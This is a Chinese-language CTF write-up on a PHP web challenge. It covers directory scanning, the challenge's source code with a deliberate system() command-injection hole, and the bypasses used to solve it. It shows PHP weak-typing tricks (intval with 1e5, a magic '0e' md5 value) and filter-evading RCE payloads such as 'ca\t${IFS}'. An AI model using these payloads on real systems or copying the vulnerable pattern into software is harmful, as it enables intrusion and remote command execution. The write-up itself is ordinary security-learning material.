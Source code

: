 ![[Pasted image 20221121210931.png]]

---
首页长这样

![[Pasted image 20221121210920.png]]

很怪，标题编码出了点问题，burp里面又能正确显示

![[Pasted image 20221121211528.png]]

有报错，但没看懂.jpg

用`dirsearch`扫扫看

![[Pasted image 20221121214141.png]]
```php
/robots.txt
```
![[Pasted image 20221121212704.png]]

```php
/fAke_f1agggg.php
```
![[Pasted image 20221121212912.png]]

是假的呜呜呜～

但是翻响应头翻到了点东西

![[Pasted image 20221121212901.png]]

```php
/fl4g.php
```
![[Pasted image 20221121213632.png]]

hmmm，为啥又是烦人的编码问题啊啊啊

搜了下，最后害得先进的浏览器收拾摊子

![[Pasted image 20221121213808.png]]

---
```php
<?php
header('Content-type:text/html;charset=utf-8');
error_reporting(0);
highlight_file(__file__);


//level 1
if (isset($_GET['num'])){
    $num = $_GET['num'];
    if(intval($num) < 2020 && intval($num + 1) > 2021){
        echo "我不经意间看了看我的劳力士, 不是想看时间, 只是想不经意间, 让你知道我过得比你好.</br>";
    }else{
        die("金钱解决不了穷人的本质问题");
    }
}else{
    die("去非洲吧");
}
//level 2
if (isset($_GET['md5'])){
   $md5=$_GET['md5'];
   if ($md5==md5($md5))
       echo "想到这个CTFer拿到flag后, 感激涕零, 跑去东澜岸, 找一家餐厅, 把厨师轰出去, 自己炒两个拿手小菜, 倒一杯散装白酒, 致富有道, 别学小暴.</br>";
   else
       die("我赶紧喊来我的酒肉朋友, 他打了个电话, 把他一家安排到了非洲");
}else{
    die("去非洲吧");
}

//get flag
if (isset($_GET['get_flag'])){
    $get_flag = $_GET['get_flag'];
    if(!strstr($get_flag," ")){
        $get_flag = str_ireplace("cat", "wctf2020", $get_flag);
        echo "想到这里, 我充实而欣慰, 有钱人的快乐往往就是这么的朴实无华, 且枯燥.</br>";
        system($get_flag);
    }else{
        die("快到非洲了");
    }
}else{
    die("去非洲吧");
}
?>
```

---
`level 1`的弱类型比较利用半天没过去，结果发现自己本地跑的`php`版本太高，已经修复了。

大致就是利用`$num+1`时字符串隐式转换的规则和`intval`不同来绕过
```php
/?num=1e5
```

---
`level 2`是md5弱类型比较绕过，`0e`打头的字符串弱类型比较时等价于`0`，网上有大佬写了代码枚举自身`0e`打头，`md5`值也为`0e`打头的字符串

https://blog.csdn.net/SopRomeo/article/details/106237931
```python
def run():
    i = 0
    while True:
        text = '0e{}'.format(i)
        m = md5(text)
        print(text,m)
        if m[0:2] == '0e' :
            if m[2:].isdigit():
                find=[]
                print('find it:',text,":",m)
                find = find.append(text)
        i +=1
    return find

t = run()
print(t)
```

```php
/?num=1e5&md5=0e215962017
```

---
`get flag`就氵起来了
```php
/?num=1e5&md5=0e215962017&get_flag=ls
```
![[Pasted image 20221121224622.png]]
```php
/?num=1e5&md5=0e215962017&get_flag=ca\t${IFS}fllllllllllllllllllllllllllllllllllllllllaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaag
```
![[Pasted image 20221121224740.png]]

#Web #PHP #字符 #encoding #目录爆破 #HTTP #Header #代码审计 #function #bypass #md5 #Misc #shell #RCE 
